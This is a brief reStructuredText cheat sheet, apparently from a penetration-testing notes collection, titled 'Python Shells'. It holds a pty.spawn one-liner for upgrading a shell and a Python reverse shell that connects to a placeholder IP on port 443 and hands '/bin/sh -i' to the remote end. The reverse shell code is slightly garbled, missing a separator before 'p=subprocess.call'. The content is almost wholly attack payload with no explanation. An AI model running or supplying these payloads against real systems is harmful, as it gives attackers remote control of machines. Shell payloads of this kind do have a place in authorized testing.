 Python Shells
=============

.. code-block:: shell

	python -c 'import pty; pty.spawn("/bin/sh")'

.. code-block:: shell

	import socket,subprocess,os
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("<IP Address>",443))
	os.dup2(s.fileno(),0); os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)p=subprocess.call(["/bin/sh","-i"])